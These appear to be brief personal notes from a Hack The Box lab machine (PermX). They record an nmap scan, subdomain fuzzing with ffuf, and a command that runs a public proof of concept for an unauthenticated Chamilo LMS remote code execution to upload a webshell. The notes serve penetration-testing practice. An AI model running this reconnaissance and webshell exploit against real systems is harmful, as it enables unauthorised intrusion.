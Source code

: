 #### nmap

Service scan
```bash
sudo nmap -sC -sV 10.10.11.23 -oA nmap -v
```
![[Pasted image 20241017105130.png]]

All port scan


#### manual

- Added permx.htb to /etc/hosts
- 

![[Pasted image 20241017105321.png]]

Performed a scan to enumerate subdomains
```bash
ffuf -u http://permx.htb -H "Host: FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 302
```
![[Pasted image 20241017110125.png]]

- Going over to the website after adding lms.permx.htb to /etc/hosts shows its a Chamilo log in page
![[Pasted image 20241017110207.png]]
Found an unauthenticated RCE on [GitHub](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) 
```bash
python3 main.py -u http://lms.permx.htb -a webshell
```
![[Pasted image 20241017110542.png]]
![[Pasted image 20241017110558.png]]
